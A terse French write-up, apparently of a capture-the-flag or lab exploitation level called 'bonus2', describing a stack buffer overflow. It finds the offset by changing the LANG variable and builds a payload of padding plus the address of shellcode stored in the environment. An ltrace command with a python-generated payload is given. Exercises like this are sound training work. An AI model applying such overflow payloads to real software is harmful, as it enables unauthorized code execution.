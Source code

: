 
Pas d'offset de base sans param.

x/s les string pour trouver env LANG= nl ou fi >> on test LN

set LANG=nl pour pouvoir trouver offset

offset = 23

payload :

"40char min" + "padding 23" + "adresse env shellcode"



ltrace ./bonus2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A $(python -c 'print "A"*23 + "\x03\xf8\xff\xbf"')